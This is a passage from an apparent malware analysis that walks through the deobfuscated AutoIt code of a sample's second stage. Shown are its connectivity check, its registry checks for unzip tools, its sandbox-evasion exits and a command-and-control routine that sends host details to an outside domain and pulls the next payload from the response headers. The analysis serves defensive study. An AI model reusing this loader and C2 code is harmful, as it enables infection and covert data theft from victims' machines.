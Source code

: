 ```autoit
FUNC PingGoogle()
  $KAGXB=0/194
  WHILE $KAGXB=0/138
    $KAGXB=$Ping_("www.google.com")
    $Sleep_(500)
  WEND
  IsZipInstaller()
ENDFUNC
```

Once the sample passes the connectivity test, it will check if the infected host has the right tools and bindings to handle `zip` files. As in this second stage, the malicious payload is in a zip format. This is done by checking a couple of registry keys:


* `HKCU\Software\Unzip, Installed`
* `HKCU\Software\Unzip, Trust`

If the host can not unzip the content, the sample will try to connect to an external resource to download a version of the 7zip tool. Also the sample checks if there are any process with the names below, finishing its execution when one of them is found on the process list:

* Start
* cmd.exe
* Program Manager

```autoit
FUNC IsZipInstaller()
  $No_=$RegRead_(HKCU\Software\Unzip, Installed)
  $No_=$RegRead_(HKCU\Software\Unzip, Trust)
  IF $No_=Yes THEN
    C2C_Connect()
  ELSE
  $No_=No
    CheckExit_()
  ENDIF
ENDFUNC

FUNC CheckExit_()
  FOR $I=1 TO 3
    $JSGPQGDHVALU=$StringInStr_($GetActiveWinGetTitle_,$Start_cmd_ProgManager[$I])
  IF $JSGPQGDHVALU<> 0 THEN
    EXIT
  ENDIF
  NEXT
  C2C_Connect()
ENDFUNC

FUNC C2C_Connect()
  GLOBAL $CPUArch_=EXECUTE(@CPUArch)
  GLOBAL $winHttClass=EXECUTE($winhttpClass_)
  EXECUTE($winHttClass.Open('HEAD', 'http://gaga.icu/app/login.php'), False))
  EXECUTE($winHttClass.setRequestHeader('User-Agent','Unzip'))
  EXECUTE($winHttClass.setRequestHeader('Window',$RTktvSLufk))
  EXECUTE($winHttClass.setRequestHeader('ScriptName',@ScriptName))
  EXECUTE($Os_version_setHeader)
  EXECUTE($CPU_version_setHeader)
  EXECUTE($winHttClass.setRequestHeader('Installed',$No_))
  IF $No_<>No THEN
    EXECUTE( $winHttClass.setRequestHeader('Trust',$LPSaS))
  ENDIF
  EXECUTE($winHttClass.Send())
  $$status_=EXECUTE($winHttClass.Status)
  IF $$status_<>200 THEN EXIT
  GLOBAL $Unzip=EXECUTE($nBCIF.GetResponseHeader('unzip'))
  GLOBAL $zip_=EXECUTE($nBCIF.GetResponseHeader('zip'))
```